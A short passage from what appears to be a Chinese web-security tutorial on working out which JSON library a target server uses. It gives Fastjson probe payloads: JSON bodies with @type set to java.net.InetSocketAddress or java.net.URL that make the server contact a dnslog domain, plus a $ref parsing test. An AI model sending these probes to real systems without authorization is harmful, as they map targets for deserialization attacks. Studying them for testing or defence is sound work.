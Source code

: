 [![](assets/1706254407-99a11a6b0959d4e91d4d5f597734ec58.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203134-ace01e6c-bb7d-1.jpeg)  
接下来，如果不做特别说明的话，我都是向`json`接口进行`post`请求`payload`。

## 一、判断所使用的 Json 库

需要注意的是，以下大部分都是在没有报错返回的情况下利用的方法，个别的我会做出说明。

## 1.1 Fastjson

### 1.1.1 dnslog 判断法

`payload1`：

```plain
{"@type":"java.net.InetSocketAddress"{"address":,"val":"rtpmognpiy.dgrh3.cn"}}
```

`payload2`：

```plain
{{"@type":"java.net.URL","val":"http://qvhkmkgcta.dgrh3.cn"}:"a"}
```

如果以上`payload`正常返回并受到`dnslog`请求，说明目标使用的是`fastjson`框架。

### 1.1.2 解析判断法

`payload3`：

```plain
{"ext":"blue","name":{"$ref":"$.ext"}}
```

